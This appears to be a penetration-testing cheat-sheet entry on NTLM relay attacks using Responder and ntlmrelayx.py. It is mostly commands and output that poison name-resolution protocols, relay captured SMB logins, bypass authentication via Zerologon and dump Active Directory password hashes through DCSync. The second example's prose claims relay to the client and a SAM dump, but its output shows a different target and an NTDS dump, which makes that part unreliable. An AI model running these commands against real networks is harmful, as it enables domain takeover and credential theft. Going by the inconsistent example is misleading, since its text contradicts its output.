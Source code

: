 ### NTLMrelayx.py

For every connection received, this module will try to relay that connection
to specified target(s) system or (by default) the original client

Start Responder.py and turn off HTTP and SMB server.

```plain
$ sudo python3 Responder.py -I enp0s31f6
[...SNIP...]
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
   WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
[...SNIP...]
```

Start ntlmrelayx.py with the target system in place.

```plain
$ sudo ntlmrelayx.py -t DCSYNC://10.10.10.10 -smb2support
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
[...SNIP...]
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Connection from offsec/ADMINISTRATOR@10.10.10.11 controlled, attacking target dcsync://10.10.10.10
[*] Connecting to 10.10.10.10 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 1 attempts!
[*] offsec\Administrator successfully validated through NETLOGON
[*] NTLM Sign/seal key: cf65d6660ec15d940f687bde79572094[...SNIP...]
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[...SNIP...]
```

By default NTLMrelayx.py relays to the client who sends the hash, dumping SAM.

```plain
$ sudo ntlmrelayx.py -smb2support
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
[...SNIP...]
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Connection from offsec/ADMINISTRATOR@10.10.10.11 controlled, attacking target smb://10.10.10.10
[*] Connecting to 10.10.10.10 NETLOGON service
[*] SMB Auth OK, successfully
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
```
